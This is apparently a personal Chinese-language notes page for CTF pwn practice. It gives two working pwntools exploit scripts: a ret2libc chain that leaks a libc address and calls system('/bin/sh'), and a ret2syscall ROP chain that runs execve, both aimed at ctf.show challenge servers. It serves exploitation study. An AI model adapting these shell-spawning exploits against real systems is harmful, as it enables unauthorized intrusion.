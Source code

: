 # Stack

我这里记录一个比较典型的栈溢出攻击payload：

# 栈溢出

## ret2libc

```bash
from pwn import *
from LibcSearcher import *
# sh = process("./shellcode")

sh = remote("pwn.challenge.ctf.show",'28216')
elf = ELF("./pwn")
context.log_level='debug'
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']

main_addr = elf.symbols['main']
pop_rdi = 0x400793
ret_addr =0x40053e

sh.recvuntil("successful!\n")
payload = b'a'*(0x70+8)+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main_addr)

sh.sendline(payload)
sh.recvuntil("a joke")
puts_addr = u64(sh.recv(6).ljust(8,b'\x00'))

libc = LibcSearcher("puts",puts_addr)
libc_base = puts_addr - libc.dump("puts")
system_addr = libc_base + libc.dump("system")
binsh = libc_base + libc.dump("str_bin_sh")

sh.recvuntil("successful!")
payload2 = b'a'*(0x70+8)+p64(ret_addr)+p64(pop_rdi)+p64(binsh)+p64(system_addr)
sh.sendline(payload2)

sh.interactive()
```

- 一般来说在`ret2libc`中当要进行`sh.recv()`进行`libc`基地址获取查看的时候，我们可以选择`sh.recvuntil("\n")`然后再`recv(4)`这样可以完美获取相关`libc`地址。

## `ret2syscall`

```python
from pwn import * 

sh = remote("pwn.challenge.ctf.show ","28251")

pop_eax =0x080bb196
pop_edx_ecx_ebx = 0x0806eb90
binsh=0x080be408
int80 =0x08049421 

payload = p32(pop_eax)+p32(0xb)+p32(pop_edx_ecx_ebx)+p32(0)+p32(0)+p32(binsh) +p32(int80)

sh.sendlineafter("ret2syscall!\n",payload)

sh.interactive()
```